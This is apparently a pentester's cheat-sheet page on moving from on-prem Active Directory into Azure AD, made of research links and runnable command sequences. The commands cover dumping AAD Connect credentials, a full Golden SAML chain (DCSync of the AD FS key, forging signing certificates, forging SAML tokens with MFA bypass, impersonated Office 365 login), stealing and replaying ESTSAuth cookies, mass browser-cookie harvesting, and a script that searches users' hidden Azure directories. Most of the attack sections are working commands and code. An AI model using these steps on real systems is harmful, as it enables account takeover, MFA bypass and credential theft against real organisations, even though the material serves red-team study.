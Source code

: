 # On-Prem → Cloud

- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/](https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/)
- [https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/](https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/)




## Dumping AAD Connect Creds

- [https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/](https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/)
- [https://aadinternals.com/post/adsync/](https://aadinternals.com/post/adsync/)
- [https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729](https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729)
- [https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/](https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/)
- [[PDF] Hacking Azure AD via Active Directory (Dirk-jan Mollema, @_dirkjan)](https://dirkjanm.io/assets/raw/TR19-Im%20in%20your%20cloud.pdf)



### Tools

- [https://github.com/dirkjanm/adconnectdump](https://github.com/dirkjanm/adconnectdump)
- [https://github.com/Hagrid29/DumpAADSyncCreds](https://github.com/Hagrid29/DumpAADSyncCreds)




## Forging AD FS SAML Tokens (Golden SAML)

- [https://aadinternals.com/post/adfs/](https://aadinternals.com/post/adfs/)
- [https://github.com/Gerenios/AADInternals/tree/ff0d29fd77cbcb32ce2a1837a1d94d8be0be8466](https://github.com/Gerenios/AADInternals/tree/ff0d29fd77cbcb32ce2a1837a1d94d8be0be8466)
- [https://github.com/Azure/SimuLand/blob/main/docs/labs/GoldenSAML/simulation/export-adfs-dkm-key/exportADFSDKMKeyDRS.md](https://github.com/Azure/SimuLand/blob/main/docs/labs/GoldenSAML/simulation/export-adfs-dkm-key/exportADFSDKMKeyDRS.md)
- [https://github.com/mandiant/ADFSpoof](https://github.com/mandiant/ADFSpoof)
- [https://github.com/mandiant/ADFSDump](https://github.com/mandiant/ADFSDump)

Install AADInternals v0.9.3:

```
PS > Install-Module -Name "AADInternals" -RequiredVersion "0.9.3" -Force
PS > Import-Module -Name "AADInternals" -RequiredVersion "0.9.3" -Force
```

Check if Azure is configured as a party trust:

```
PS > Install-WindowsFeature ADFS-Federation
PS > Import-Module ADFS
ADFS > Get-ADFSRelyingPartyTrust | select Identifier | fl
```

Get AD FS config:

```
AADInt > $ADFSConfig = Export-AADIntADFSConfiguration -Hash <ADFS_SVC_NT_HASH> -SID <ADFS_SVC_SID> -Server ADFS01.megacorp.local
PS > [xml]$xml=$ADFSConfig
PS > $group = $xml.ServiceSettingsData.PolicyStore.DkmSettings.Group
PS > $container = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ContainerName
PS > $parent = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ParentContainerDn
PS > $base = "LDAP://CN=$group,$container,$parent"
PS > $base
```

Get private key object GUID:

```
PV3 > Get-DomainObject -LDAPFilter "(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))" -SearchBase "CN=ADFS,CN=Microsoft,CN=Program Data,DC=megacorp,DC=local" | select objectGuid
```

Ensure you have enough privileges to DCSync:

```
Cmd > Rubeus.exe asktgt /user:DC01$ /domain:megacorp.local /dc:DC01.megacorp.local /aes256:<AES_KEY> /opsec /nowrap /ptt
Cmd > Rubeus.exe asktgs /ticket:<TICKET> /domain:megacorp.local /dc:DC01.megacorp.local /service:LDAP/DC01.megacorp.local /nowrap /ptt
```

DCSync the key:

{% hint style="info" %}
We don't actually need clear-text creds to replicate the key if we've already imported a privileged TGT, so `$Credentials` ([here](https://github.com/Gerenios/AADInternals/blob/49a9659b60672f08428e72148b66dfe4629562da/DRS_Utils.ps1#L242), `C:\Program Files\WindowsPowerShell\Modules\AADInternals\0.9.3\DRS_Utils.ps1`) can be omitted.
{% endhint %}

```
AADInt > $ADFSKey = Export-AADIntADFSEncryptionKey -Server DC01.megacorp.local -ObjectGuid <GUID> -Credentials "dummy"
PS > [System.BitConverter]::ToString($ADFSKey)
```

Generate the token signing certificate:

```
AADInt > Export-AADIntADFSCertificates -Configuration $ADFSConfig -Key $ADFSKey
PS > ls ADFS_*
```

Get AD FS trust issuer as well as on-prem users' immutable cloud IDs:

```
ADFS > $Issuer = (Get-ADFSProperties).Identifier.OriginalString
PV3 > Get-DomainUser | select UserPrincipalname, @{Name="ImmutableId"; Expression={"$([Convert]::ToBase64String(([guid]$_.ObjectGuid).ToByteArray()))"}}
```

Generate forged SAML request-response for WS-Federation (SOAP-based) protocol interchange:

```
AADInt > $token = New-AADIntSAMLToken -ImmutableId <ID> -PfxFileName .\ADFS_signing.pfx -Issuer $Issuer [-UPN j.doe@megacorp.com] [-ByPassMFA]
AADInt > New-WSFedResponse -SAMLToken $token
```

Generate forged SAML request-response for SAML 2.0 (XML-based) protocol interchange:

```
AADInt > $token = New-AADIntSAML2Token -ImmutableId <ID> -PfxFileName .\ADFS_signing.pfx -Issuer $Issuer [-UPN j.doe@megacorp.com]
AADInt > $resp = New-AADIntSAMLPResponse -SAML2Token $token
AADInt > [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($resp))
```

Generate forged SAML request-response, impersonate and login:

```
AADInt > Open-AADIntOffice365Portal -TokenType WSFED/SAMLP -ImmutableId <BASE64_ID> -PfxFileName .\ADFS_signing.pfx -Issuer $Issuer [-UPN j.doe@megacorp.com] [-ByPassMFA] [-Browser Chrome]
```




## Pass-the-Cookie

- [https://blog.netwrix.com/2022/11/29/bypassing-mfa-with-pass-the-cookie-attack/](https://blog.netwrix.com/2022/11/29/bypassing-mfa-with-pass-the-cookie-attack/)



### Refresh Token from ESTSAuth* Cookies

Automated with [TokenTacticsV2](https://github.com/f-bader/TokenTacticsV2?tab=readme-ov-file#get-a-refresh-token-from-estsauth-cookie):

```
PS > Get-AzureTokenFromESTSCookie -ESTSAuthCookie <COOKIE_VALUE>
```



### Mass Cookies Harvesting

Collect with [dploot](https://github.com/zblurx/dploot) and decrypt with a backup key (similar to [HEKATOMB](https://github.com/ProcessusT/HEKATOMB)):

```
$ ls tickets/
SRV01.ccache   SRV02.ccache   PC01.ccache
$ for st in `ls tickets/`; do comp=`basename $st .ccache`; KRB5CCNAME="tickets/$st" proxychains4 dploot browser -d megacorp.local -no-pass -use-kcache "$comp.megacorp.local" -pvk ../key.pvk -show-cookies > "browsers_$comp.out"; done
```

Search for `ESTSAUTHPERSISTENT` cookies:

```
$ grep -nr --include '*.out' ESTSAUTHPERSISTENT -A3 | grep -e Creation -e Expires
```




## Mass Hidden Directories Searching

Impacket's **smbclient.py** extension (searches for hidden directories in every user's home):

```python
def do_hidden(self, args=None):
    hidden = []
    for item1 in self.smb.listPath(self.share, '\\Users\\*'):
        longname1 = item1.get_longname()
        if item1.is_directory() and longname1 not in ('.', '..'):
            dir0 = ntpath.join('\\Users', longname1)
            try:
                ls = self.smb.listPath(self.share, ntpath.join(dir0, '*'))
            except:
                continue
            else:
                for item2 in ls:
                    longname2 = item2.get_longname()
                    if item2.is_directory() and longname2 not in ('.', '..') and longname2.startswith('.'):
                        hidden.append((item2, ntpath.join(dir0, longname2)))
    result = ''
    for item, name in hidden:
        result += 'drw-rw-rw- '
        result += f'{datetime.fromtimestamp(item.get_mtime_epoch()).strftime("%Y/%m/%d %H:%M:%S"):>21} '
        result += '  '
        result += name
        result += '\n'
    print(result.strip())
```

Collect hidden directories:

```
$ ls tickets/
SRV01.ccache   SRV02.ccache   PC01.ccache
$ echo 'use c$\ninfo\nhidden' > cmd
$ for st in `ls tickets/`; do comp=`basename $st .ccache`; KRB5CCNAME="tickets/$st" proxychains4 smbclient.py -k -no-pass "$comp.megacorp.local" -inputfile cmd -outputfile "hidden_$comp.out"; done
```

Search for hidden directories that start with `.az`:

```
$ grep -nr --include '*.out' '\Users' | grep -i '\.az'
```
